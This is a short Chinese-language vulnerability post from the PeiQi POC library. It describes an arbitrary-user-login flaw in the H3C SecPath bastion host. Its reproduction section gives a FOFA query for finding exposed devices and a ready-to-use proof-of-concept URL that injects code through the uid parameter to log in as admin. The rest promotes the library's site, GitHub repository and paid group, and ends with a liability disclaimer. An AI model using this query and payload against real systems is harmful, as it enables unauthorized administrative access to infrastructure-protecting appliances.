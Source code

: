 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/0sA0brgbwplN6N9mcAQJDQ)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

**![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7f0qibYGLgIyO0zpTSeV1I6m1WibjS1ggK9xf8lYM44SK40O6uRLTOAtiaM0xYOqZicJ2oDdiaWFianIjQ/640?wx_fmt=png)**

**一****：漏洞描述🐑**

**H3C SecParh 堡垒机 get_detail_view.php 存在任意用户登录漏洞**

**与齐治堡垒机出现的漏洞相似**

**二:  漏洞影响🐇**

**H3C SecParh 堡垒机**

**三:  漏洞复现🐋**

```
FOFA: app="H3C-SecPath-运维审计系统" && body="2018"
```

**POC 验证的 Url 为**

```
/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4SMSCGdmVMgAzT9tD2bmsw3X4bdvOfQ8SsoT81iaNv6bJMiaBG6nxtO3TLR3icefvq5OIKyo30YzPaA/640?wx_fmt=png)

 ****四:  关于文库🦉****

 **在线文库：**

**http://wiki.peiqi.tech**

 **Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4cpD8uQPH24EjA7YPtyZEP33zgJyPgfbMpTJGFD7wyuvYbicc1ia7JT4O3r3E99JBicWJIvcL8U385Q/640?wx_fmt=png)

最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

**同时知识星球也开放运营啦，希望师傅们支持支持啦🐟**

**知识星球里会持续发布一些漏洞公开信息和技术文章~**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7iafXcY0OcGbVuXIcjiaBXZuHPQeSEAhRof2olkAM9ZghicpNv0p8rRbtNCZJL4t82g15Va8iahlCWeg/640?wx_fmt=png)

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**PeiQi 文库 拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。**